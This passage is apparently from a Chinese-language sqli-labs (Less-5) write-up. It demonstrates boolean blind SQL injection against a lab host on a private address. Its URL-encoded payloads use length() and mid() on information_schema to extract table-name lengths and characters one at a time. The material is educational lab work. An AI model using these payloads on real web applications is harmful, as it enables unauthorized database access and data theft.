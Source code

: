 ```
4 rows in set (0.00 sec)
```

然后用同样的方式获得每一个表的字符长度和判断字符分别是什么

首先判断第一个表字符长度是多少

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))=6)--+`

![](assets/markdown-img-paste-20180418170644135.png)

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1))=5)--+`

![](assets/markdown-img-paste-20180418170721821.png)

可见长度就是6

知道一共有4个表，第一个表字符串长度是6，那么继续判断这个表名是什么

`http://10.101.177.100:9990/Less-5/?id=1%27%20and%201=(mid((select%20table_name%20from%20information_schema.tables%20where%20table_schema=%27security%27%20limit%200,1),1,1)='e')--+`

![](assets/markdown-img-paste-20180418171020199.png)
